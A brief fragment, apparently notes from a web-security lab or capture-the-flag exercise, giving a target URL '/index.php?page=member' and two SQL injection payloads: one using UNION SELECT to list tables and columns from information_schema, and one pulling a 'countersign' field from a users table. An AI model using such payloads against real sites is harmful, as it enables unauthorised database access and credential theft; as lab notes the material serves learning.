 /index.php?page=member

1 UNION SELECT table_name, column_name FROM information_schema.columns
1 UNION SELECT Commentaire, countersign FROM users
